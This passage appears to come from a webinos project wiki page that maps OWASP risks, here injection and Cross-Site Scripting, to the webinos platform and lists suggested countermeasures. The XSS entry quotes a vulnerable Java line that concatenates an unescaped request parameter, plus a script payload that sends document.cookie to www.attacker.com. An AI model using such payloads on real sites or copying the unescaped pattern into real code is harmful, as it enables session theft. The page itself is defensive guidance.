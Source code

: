 ### Webinos relevance[¶](#Webinos-relevance)

it could be relevant when a webinos device exports some app or
functionality

### Webinos suggested countermeasure[¶](#Webinos-suggested-countermeasure)

1.  secure code best practices should be adopted by webinos developers
2.  webinos applications should be tested with a defined patterns of
    improperly formatted input data

A2 – Cross-Site Scripting (XSS)[¶](#A2-–-Cross-Site-Scripting-XSS)
------------------------------------------------------------------

it occurs whenever an application takes untrusted data and sends them to
a web browser without proper validation and/or escaping

### example[¶](#example)

(String) page += "\<input name='creditcard' type='TEXT‘ value='" +
request.getParameter("CC") + "'\>";

The attacker modifies the ‘CC’ parameter in their browser to:\
'\>\<script\>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie\</script\>'

### OWASP suggested solutions[¶](#OWASP-suggested-solutions)

1.  to properly escape all untrusted data based on the HTML context
    (body, attribute, JavaScript, CSS, or URL) that the data will be
    placed into
2.  positive or “whitelist” input validation, but is not a complete
    defense as many applications must accept special characters
3.  Consider employing Mozilla's new Content Security Policy (Firefox 4)
    to defend against XSS

### Note[¶](#Note)

Mozilla's Content Security Policy (from
<https://developer.mozilla.org/en/Security/CSP/Using_Content_Security_Policy>)\
is a worth thing to analize, [some examples](some%20examples.html)
clarify what can provide

### Webinos relevance[¶](#Webinos-relevance)

It can enable improper cross-application injection and data access.
Webinos could try to diminish impact of this

### Webinos suggested countermeasure[¶](#Webinos-suggested-countermeasure)
